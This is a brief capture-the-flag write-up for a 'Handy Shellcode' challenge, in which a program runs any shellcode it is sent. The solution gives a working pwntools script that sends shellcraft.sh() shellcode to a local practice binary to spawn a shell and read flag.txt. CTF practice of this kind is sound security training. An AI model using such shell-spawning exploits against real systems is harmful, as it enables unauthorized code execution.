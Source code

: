 # Handly Shellcode

### 📄 Description
This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt?



## 🔑 Solution 

We have a program that asks us an shellcode.

If we provide to it an working shellcode, it will perform this shellcode.

There really wasn't a thinking process involved with the solution of this one, pwntools gives us a ready made shellcode for popping a shell using `shellcraft`

```python
from pwn import *

context.binary = "./vuln"

p = process()
p.sendline(asm(shellcraft.sh()))
p.interactive()
```